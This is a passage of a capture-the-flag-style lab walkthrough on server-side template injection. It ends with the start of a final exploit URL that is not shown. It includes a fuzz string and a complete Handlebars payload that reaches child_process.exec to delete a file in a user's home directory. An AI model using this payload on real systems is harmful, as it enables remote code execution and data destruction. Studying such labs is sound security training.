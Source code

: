 ```
7. Remove the invalid syntax that you entered earlier, and insert your new payload into the template.
8. Save the template and view the product page to solve the lab.

### Server-side template injection in an unknown language with a documented

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

**Solution**

1. Notice that when you try to view more details about the first product, a GET request uses the message parameter to render "Unfortunately this product is out of stock" on the home page.
2. Experiment by injecting a fuzz string containing template syntax from various different template languages, such as ${{<%[%'"}}%\, into the message parameter. Notice that when you submit invalid syntax, an error message is shown in the output. This identifies that the website is using Handlebars.
3. Search the web for "Handlebars server-side template injection". You should find a well-known exploit posted by @Zombiehelp54.
4. Modify this exploit so that it calls

    ```
    require("child_process").exec("rm /home/carlos/morale.txt") as follows:

    wrtz{{#with "s" as |string|}}
        {{#with "e"}}
            {{#with split as |conslist|}}
                {{this.pop}}
                {{this.push (lookup string.sub "constructor")}}
                {{this.pop}}
                {{#with string.split as |codelist|}}
                    {{this.pop}}
                    {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                    {{this.pop}}
                    {{#each conslist}}
                        {{#with (string.sub.apply 0 codelist)}}
                            {{this}}
                        {{/with}}
                    {{/each}}
                {{/with}}
            {{/with}}
        {{/with}}
    {{/with}}
    ```

5. URL encode your exploit and add it as the value of the message parameter in the URL. The final exploit should look like this, but remember to replace your-lab-id with your own lab ID:

```